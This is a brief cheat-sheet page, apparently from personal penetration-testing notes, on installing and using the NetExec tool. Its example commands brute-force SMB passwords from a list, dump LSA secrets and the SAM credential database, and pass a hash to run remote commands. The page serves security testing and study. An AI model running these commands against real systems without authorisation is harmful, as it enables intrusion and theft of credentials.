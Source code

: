 # NetExec

<div class="row row-cols-lg-2"><div>

[NetExec](https://github.com/Pennyw0rth/NetExec) or NXC <small>(1.6k ⭐)</small> is a fork of [CrackMapExec](cme.md) which is now archived. It can be used to brute force network services passwords.

The [wiki](https://www.netexec.wiki/) further lists everything else you can do.

```shell!
$ sudo apt install pipx git
$ pipx ensurepath
$ pipx install git+https://github.com/Pennyw0rth/NetExec
```
</div><div>

Example usage:

```shell!
$ nxc smb IP -u 'username' -p password.list
$ nxc smb IP --local-auth -u 'xxx' -p 'yyy' --lsa
$ nxc smb IP --local-auth -u 'xxx' -p 'yyy' --sam
$ nxc smb IP -u 'xxx' -d . -H hash -x whoami
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `--continue-on-success`
* `--local-auth`: non-domain joined
</div><div>

</div></div>
